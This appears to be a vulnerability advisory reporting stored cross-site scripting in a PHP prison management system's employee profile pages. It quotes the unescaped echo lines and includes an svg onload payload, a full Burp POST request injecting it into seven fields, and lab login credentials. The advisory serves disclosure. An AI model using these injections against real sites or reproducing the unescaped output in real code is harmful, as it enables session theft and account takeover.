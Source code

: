 # Prison Management System
## XSS on `/Employee/edit-profile.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Account/Login.php
releaseme@gmail.com
escobar2012
```

### Affected Page:

```
/Employee/edit-profile.php、/Employee/profile.php
```

The parameter `txtfullname` 、`txtdob` 、`txtaddress`、`txtqualification`、`cmddept`、`cmdemployeetype`、`txtappointment`are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Employee/edit-profile.php

# txtfullname
150 <input type="text" size="77" name="txtfullname" value="<?php echo $row['fullname'];   ?>" class="form-control" required="">

# txtdob
168 <input type="text" size="77" name="txtdob" value="<?php echo $row['dob'];   ?>" class="form-control">

# txtaddress
173 <input type="text" size="77" name="txtaddress" value="<?php echo $row['address'];   ?>" class="form-control">

# txtqualification
177 <input type="text" size="77" name="txtqualification" value="<?php echo $row['qualification'];   ?>" class="form-control">

# cmddept
180 <select name="cmddept" id="cmddept" class="form-control" required="">
181 <option value="<?php echo $row['dept'];   ?>"><?php echo $row['dept'];   ?></option>
182 <option value="Security">Security</option>
183 <option value="Bursary">Bursary</option>
184 <option value="Student Affairs">Student Affairs</option>
185 <option value="Clinic">Clinic</option>
186 <option value="ICT">ICT</option>
187 <option value="Admin">Admin</option>
188 <option value="Science & Technology">Science & Technology</option>
189 <option value="Management Technolgy">Management Technolgy</option>
190 <option value="Engineering Technology">Engineering Technology</option>
191 </select>

# cmdemployeetype
195 <select name="cmdemployeetype" id="cmdemployeetype" class="form-control" required="">
196 <option value="<?php echo $row['employee_type'];   ?>"><?php echo $row['employee_type'];   ?></option>
197 <option value="Academic">Academic</option>
198 <option value="Non-Academic">Non-Academic</option>
199 </select>

# txtappointment
203 <input type="text" size="77" name="txtappointment" value="<?php echo $row['date_appointment'];   ?>" class="form-control">
```

```php
# /Employee/profile.php

# txtfullname
134 <strong>Fullname :</strong> <?php echo $rowaccess['fullname'];?> <br>

# txtdob
161 <strong>Date of Birth :</strong> <?php echo $rowaccess['dob'];?>  <br>

# txtaddress
184 <strong>Address :</strong> <?php echo $rowaccess['address'];?>  <br>

# txtqualification
192 <strong>Qualification :</strong> <?php echo $rowaccess['qualification'];?>  <br>

# cmddept
200 <strong>Department :</strong> <?php echo $rowaccess['dept'];?>  <br>

# cmdemployeetype
217 <strong>Employee Type :</strong> <?php echo $rowaccess['employee_type'];?>  <br>

# txtappointment
208 <strong>Date Appointment :</strong> <?php echo $rowaccess['date_appointment'];?>  <br>
```

### Proof of Concept:

Payload:

```
<svg/onload=alert``>
```

Burp Request:

```
POST /Employee/edit-profile.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 317
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

txtfullname=<svg/onload=alert`1`>&cmdsex=less_10&txtphone=less_12&txtdob=<svg/onload=alert`2`>&txtaddress=<svg/onload=alert`3`>&txtqualification=<svg/onload=alert`4`>&cmddept=<svg/onload=alert`5`>&cmdemployeetype=<svg/onload=alert`6`>&txtappointment=<svg/onload=alert``>&txtbasic_salary=num&txtgross_pay=num&btnedit=1
```

### Screenshot

![image-20240505125258930](./screenshot/image-20240505125258930.png)

![image-20240505125406779](./screenshot/image-20240505125406779.png)

![image-20240505125352394](./screenshot/image-20240505125352394.png)

![image-20240505125439824](./screenshot/image-20240505125439824.png)

![image-20240505125453349](./screenshot/image-20240505125453349.png)

![image-20240505125237125](./screenshot/image-20240505125237125.png)

![image-20240505125511815](./screenshot/image-20240505125511815.png)

